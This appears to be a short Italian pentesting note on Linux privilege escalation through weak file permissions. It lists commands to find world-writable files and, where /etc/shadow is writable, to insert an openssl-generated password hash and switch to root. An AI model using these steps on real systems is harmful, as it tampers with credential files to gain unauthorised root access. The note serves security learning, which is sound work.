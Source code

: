 
# Linux Privilege Escalation Week Permissions
Dopo aver ottenuto una sessione su un target Linux, possiamo andare a cercare delle credenziali deboli:
```bash
find / -not -type l -perm -o+w            # mostra files che possono essere modiicati da tutti gli utenti nel sistema
# ser il sistema é mal configurato, potremmo trovare il file /etc/shadow modificabile quindi generiamo una password hashata e inseriamola nel file shadow
openssl passwd -1 -salt abc <password>
nano /etc/shadow
# rimuoviamo l'asterisco e al suo posto mettiamo la pasword hashata generata da openssl per poi collegarci a root
su
<password>
```
